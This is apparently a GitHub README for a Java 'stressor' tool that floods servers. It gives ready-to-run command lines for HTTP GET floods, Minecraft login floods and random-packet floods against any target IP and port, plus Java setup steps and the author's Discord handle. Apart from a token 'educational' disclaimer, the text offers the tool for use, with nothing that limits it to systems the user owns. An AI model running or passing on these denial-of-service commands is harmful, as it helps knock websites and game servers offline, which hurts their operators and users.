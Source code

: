 # Stressor Tool

This tool was primarily designed to test websites. However, much of the code is either incomplete or not functioning as you will see. ( MC Method and Random Packets ig )

At the moment, I have limited interest in this project, but I may release some updates in the future. Because of this, I'm providing the full source code. However, I'm not entirely sure which version this is, so if you encounter any issues, feel free to report them! Thanks.

( Full Version in Releases )


please use it only for eductional things >.<
#happytobeaskid


# HTTP
java -jar --enable-preview (Name).jar -targets ip:port -hostname ip -method http -version 1.1 -requests 1024 -type get -processors 1 -duration 1 -connections 1


# MC METHOD
java -jar (Name).jar -targets ip:port -method mc -type login -version 1.8 -hostname ip -processors 1 -connections 1 -duration 10

# RANDOM PACKET
java -jar --enable-preview (Name).jar -targets ip:port -hostname ip -method random-packet -size <1 to 65535> -processors 1 -duration 1 -connections 1

# INSTALLATION
1. Download Java 21 ( https://www.oracle.com/de/java/technologies/downloads/#java21 )
2. Set java 21 as Standard Java Version ( setx JAVA_HOME "C:\Program Files\Java\jdk-21", setx PATH "%PATH%;C:\Program Files\Java\jdk-21\bin" )
3. Open CMD and run one of the Methods that i have pasted above.


If you need any Help you can add me on Discord: ack_cat
